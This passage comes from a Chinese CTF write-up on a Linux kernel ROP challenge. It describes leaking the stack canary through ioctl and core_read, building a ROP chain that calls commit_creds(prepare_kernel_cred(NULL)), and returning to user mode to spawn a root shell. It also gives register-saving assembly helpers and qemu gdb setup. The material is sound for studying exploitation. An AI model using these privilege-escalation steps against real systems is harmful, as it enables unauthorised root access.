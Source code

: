 ### 解题思路

经过如上的分析，可以得出以下解题思路：

1. 通过 ioctl 设置 off，然后通过 core_read() 泄漏出 canary
2. 通过 core_write() 向 name 写，构造 ropchain
3. 通过 core_copy_func() 从 name 向局部变量上写，通过设置合理的长度和 canary 进行 rop
4. 通过 rop 执行 `commit_creds(prepare_kernel_cred(NULL))` 进行提权
5. 返回用户态，通过 system("/bin/sh") 等起 shell

解释一下：

- 如何获得 commit\_creds()，prepare\_kernel\_cred() 的地址？
	- /tmp/kallsyms 中保存了这些地址，可以直接读取，同时根据偏移固定也能确定 gadgets 的地址
- 如何返回用户态？
	- `swapgs; iretq`，之前说过需要设置 `cs, rflags` 等信息，可以写一个函数保存这些信息

```c
// intel flavor assembly
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status_intel()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}

// at&t flavor assembly
void save_status_atNt() {
    asm volatile(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        :"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
        :
        : "memory"
    );
}
```

### Exploit

先说一下怎么调试，qemu 内置有 gdb 的接口，通过 help 查看:

```bash
$ qemu-system-x86_64 --help | grep gdb
						  -gdb dev        wait for gdb connection on 'dev'
						  -s              shorthand for -gdb tcp::1234
```
